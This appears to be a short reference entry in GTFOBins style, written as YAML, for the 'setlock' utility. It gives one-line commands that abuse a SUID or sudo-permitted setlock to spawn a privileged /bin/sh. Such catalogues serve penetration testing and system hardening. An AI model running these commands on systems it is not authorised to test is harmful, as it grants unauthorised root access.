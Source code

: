 ```yaml
---
functions:
  suid:
    - code: ./setlock - /bin/sh -p
  sudo:
    - code: sudo setlock - /bin/sh
---
```

